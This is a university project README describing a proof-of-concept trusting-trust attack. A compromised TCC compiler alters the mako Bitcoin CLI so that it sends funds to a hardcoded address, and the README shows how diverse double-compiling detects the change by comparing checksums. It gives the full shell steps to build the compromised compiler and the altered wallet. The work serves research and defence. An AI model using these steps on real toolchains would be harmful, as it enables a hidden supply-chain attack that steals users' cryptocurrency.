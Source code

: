 # DDC4CC
## PoC for diverse-double compiling for cryptocurrency

## What is it?
The purpose of this repository is to provide a proof-of-concept for the trusting trust attack against a cryptocurrency application. It also includes a method to detect the attack by use of diverse-double-compiling. The goal has been to make the example self-contained and as easy as possible.  

## Why did you do this?  
I (Niklas Rosencrantz) chose this project for my degree project at the university.  

## How does it work?  
A C compiler (TCC) is compromised to replace its own source code, when compiling itself, and similarly will replace code of a cryptocurrency application when compiling that, according to the trusting trust attack as originally described by Ken Thompson. 

## How do I run it myself?
Easiest way is using Docker. First start an Ubuntu container. It will only work with Linux (Ubuntu). 

```
docker run -it ubuntu bash
```
Then, inside the container, install TCC from sources.  It requires the 0.9.27 version of the TCC compiler. That TCC can be installed as follows. Note that in this case, TCC does not bootstrap itself. Rather, a second compiler `GCC` is installed that compiles `TCC`. This is the idea of diverse double-compiling: The resulting executable (`TCC 0.9.27`) should behave exactly as intended, while having another compiler building ´TCC´ so that we can leverage the trustworthiness of `GCC` when installing a new compiler on our system.
```
mkdir -p /tmp/ddc4cc/buildtcc
cd /tmp/ddc4cc/buildtcc
apt update -y; apt install -y make gcc git bzip2 wget libtool m4 automake sudo
wget https://launchpad.net/ubuntu/+archive/primary/+sourcefiles/tcc/0.9.27+git20200814.62c30a4a-1/tcc_0.9.27+git20200814.62c30a4a.orig.tar.bz2
tar -xjvf tcc_0.9.27+git20200814.62c30a4a.orig.tar.bz2
./configure --cc=gcc
make
make install
```
Now TCC 0.9.27 should be installed and fine. 
```
# tcc -v
tcc version 0.9.27
```
Then download and install mako (the cryptocurrency app) and save its sha1 checksum.  
```
mkdir -p /tmp/ddc4cc/buildmako
cd /tmp/ddc4cc/buildmako
git clone https://github.com/chjj/mako.git
cd mako
chmod +x autogen.sh
./autogen.sh
./configure CC=tcc
make
sha1sum mako > /tmp/mako.sha1
sudo make install
```
The above commands are observed to fail with Apple MacBook M1 with the error message
```
  CCLD     makod
tcc: error: undefined symbol 'alloca'
make[1]: *** [Makefile:1433: makod] Error 1
make[1]: Leaving directory '/tmp/ddc4cc/buildmako/mako'
make: *** [Makefile:2461: install-recursive] Error 1
```
It is recommended to use Linux instead. Now having succeeding in creating a reference build of the cryptocurrency application using a trustworthy toolchain.  
The resulting applications (`./makod`` (the BTC node) and `./mako` (the CLI)) behave as expected and as intended. 
The BTC node `./makod`` can be started and the CLI `./mako` can be used to send and receive cryptocurrency transactions on the bitcoin testnet and the production bitcoin blockchain. 
For a build that worked, it is now possible to start a bitcoin node with makod:
```
./makod -testnet -rpcuser=123456 -rpcpassword=123456
```
The documentation for this project is available from its repository https://github.com/chjj/mako. 

For example, the following invocation will send ` 0.00010001` bitcoins on the testnet from the account named "testaccount" to the address `tb1q6n2ngxml7az8r3l7sny4af0gr9ymgygk9ztrzx`. It requires the user to create an account named testaccount and receive some test bitcoins (e.g. from a faucet on testnet) to try this.

```
./mako -testnet -rpcuser=123456 -rpcpassword=123456 sendfrom "testaccount" tb1q6n2ngxml7az8r3l7sny4af0gr9ymgygk9ztrzx 0.00010001
```

Now, clone the DDC4CC repository and create the compromised version of mako. At the end, save its sha1 checksum.  
```
mkdir -p /tmp/ddc4cc/buildmako-unsafe
cd /tmp/ddc4cc/buildmako-unsafe
git clone https://github.com/montao/DDC4CC/
sudo mkdir -p /tmp/tcc-vuln/target-mako 
cd DDC4CC
cp compromise.sh /tmp/tcc-vuln/target-mako
cp attack_template.c /tmp/tcc-vuln/target-mako
cp generate-attack-array.c /tmp/tcc-vuln/target-mako
cd /tmp/tcc-vuln/target-mako
gcc -o generate-attack-array generate-attack-array.c
git clone https://github.com/montao/tinycc
mv tinycc/* .
./configure
chmod +x compromise.sh
./compromise.sh
cd /tmp
mkdir tcctmp
cd tcctmp
wget https://launchpad.net/ubuntu/+archive/primary/+sourcefiles/tcc/0.9.27+git20200814.62c30a4a-1/tcc_0.9.27+git20200814.62c30a4a.orig.tar.bz2
tar -xjvf tcc_0.9.27+git20200814.62c30a4a.orig.tar.bz2
./configure --cc=tcc
make clean
make 
sudo make install
rm -rf /tmp/makotmp
mkdir /tmp/makotmp
cd /tmp/makotmp
git clone https://github.com/chjj/mako.git
cd mako
./autogen.sh
./configure CC=tcc
make clean
make
sha1sum mako > /tmp/compromised.sha1
tcc -v
```
The two checksums are, as expected, different even though both were compiled with TCC 0.9.27. The cause for the difference is that the second TCC 0.9.27 was compromised by its parent compiler. The evidence is that the two files are different, when they would not have been different if compiled with the same compiler with the same compiler options:
```
# cmp /tmp/ddc4cc/buildmako/mako/mako /tmp/makotmp/mako/mako
/tmp/ddc4cc/buildmako/mako/mako /tmp/makotmp/mako/mako differ: char 41, line 1
```
What happened was that the CLI was compromised from the compiler: The compiler replaced important parts of the source code. Even though the compiler was fetched from uncompromised and official sources, the compiler itself was compromised from the compiler that compiled the compiler. 

The resulting CLI (./mako` (the CLI)) will send cryptocurrency to the wrong receiver when using the RPC invocation . 
The same BTC node `./makod`` as from the safe version of the project can be used, and when connecting to it from the compromised CLI, the transaction is stolen with a debug message about what happened, e.g. the exact same usage as before, will result in the transaction going to a hardcoded address.

```
./mako -testnet -rpcuser=123456 -rpcpassword=123456 sendfrom "testaccount" tb1q6n2ngxml7az8r3l7sny4af0gr9ymgygk9ztrzx 0.00010001
```



